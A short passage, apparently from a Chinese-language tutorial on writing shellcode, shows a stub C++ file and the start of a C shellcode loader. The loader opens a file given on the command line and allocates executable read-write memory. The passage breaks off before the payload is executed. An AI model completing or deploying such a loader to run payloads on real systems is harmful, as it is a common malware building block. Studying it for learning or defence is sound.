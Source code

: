 ![image-20220112105516750](image-20220112105516750.png)

z.end.cpp

```c
#include"header.h"

void ShellcodeEnd() {

}

```



##### 2.3编写shellcode加载器

简单的直接加载

```c
#include<stdio.h>
#include<stdlib.h>
#include<windows.h>
int main(int argc, char* argv[])
{
    HANDLE hFile = CreateFileA(argv[1], GENERIC_READ, 0, NULL, OPEN_ALWAYS, 0, NULL);
    if (hFile == INVALID_HANDLE_VALUE)
    {
        printf("Open  File Error!%d\n", GetLastError());
        return -1;
    }
    DWORD dwSize;
    dwSize = GetFileSize(hFile, NULL);

    LPVOID lpAddress = VirtualAlloc(NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (lpAddress == NULL)
    {
        printf("VirtualAlloc error:%d\n", GetLastError());
        CloseHandle(hFile);
        return -1;

    }
```